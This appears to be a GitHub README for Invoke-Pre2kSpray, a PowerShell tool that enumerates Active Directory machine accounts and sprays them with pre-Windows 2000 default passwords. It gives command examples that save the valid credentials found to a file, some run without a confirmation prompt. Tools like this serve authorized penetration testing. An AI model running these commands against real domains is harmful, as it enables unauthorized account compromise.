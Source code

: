 # Invoke-Pre2kSpray

Modified DomainPasswordSpray version to enumerate machine accounts and perform a pre2k password spray.

### Example Usage 

```powershell
# Current domain
Invoke-Pre2kSpray -OutFile valid-creds.txt

# Specify domain, disable confirmation prompt
Invoke-Pre2kSpray -OutFile valid-creds.txt -Domain test.local -Force

# Filter out accounts with pwdlastset in the last 30 days, to speed things up. Those are probably normal machine accounts that rotate their passwords
Invoke-Pre2kSpray -OutFile valid-creds.txt -Filter
```

### References / Credits

* https://github.com/dafthack/DomainPasswordSpray
* https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/
* @garrfoster for pointing out to me that the authentication via NTLM was wrong, which lead to false negatives and for providing me with the correct kerberos authentication code :)

